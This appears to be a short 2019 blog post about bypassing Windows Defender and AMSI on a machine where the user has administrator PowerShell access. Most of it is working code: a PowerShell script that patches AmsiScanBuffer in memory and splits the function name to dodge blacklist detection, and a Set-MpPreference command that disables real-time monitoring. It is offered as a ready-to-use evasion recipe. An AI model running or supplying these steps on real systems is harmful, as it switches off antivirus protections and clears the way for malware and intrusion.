 ```yaml
---
title: Bypassing Windows Defender and AMSI 2019 With Privileges
date: 2019-09-23
draft: false
---
```

These steps assume you have access to powershell with admin rights. For the record, I’m not sure if this will work on a domain joined machine where conflicting policies may have been set. The AMSI script works by patching the AMSI DLL in memory, which means it’s not persistent and does not require privileges. The Defender command changes a registry value, which means it is persistend and it also requires privileges.

Disable AMSI

`$win32 = @"`  
`using System.Runtime.InteropServices;`  
`using System;`  
`public class Win32 {`  
`[DllImport("kernel32")]`  
`public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);`  
`[DllImport("kernel32")]`  
`public static extern IntPtr LoadLibrary(string name);`  
`[DllImport("kernel32")]`  
`public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect`  
`);`  
`}`  
`"@`  
`Add-Type $win32`  
`# String Concatenation to bypass blacklist`  
`$ptr = [Win32]::GetProcAddress([Win32]::LoadLibrary("amsi.dll"), "AmsiScan"+"Buffer")`  
`$b = 0`  
`[Win32]::VirtualProtect($ptr, [UInt32]5, 0x40, [Ref]$b)`  
`$buf = New-Object Byte[] 7`  
`$buf[0] = 0x66; $buf[1] = 0xb8; $buf[2] = 0x01; $buf[3] = 0x00; $buf[4] = 0xc2; $buf[5] = 0x18; $buf[6] = 0x00;`  
`[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 7)`

Credit to [Avi Gimpel](https://web.archive.org/web/20220520135811/https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/), the exact code in his blog post no longer works because it contains “AmsiScanBuffer” but with a little concatenation it still works great!

Disable Defender

`PowerShell Set-MpPreference -DisableRealtimeMonitoring 1`

Credit to [Shawn Brink](https://web.archive.org/web/20220520135811/https://www.tenforums.com/tutorials/3569-turn-off-windows-defender-real-time-protection-windows-10-a.html#option5)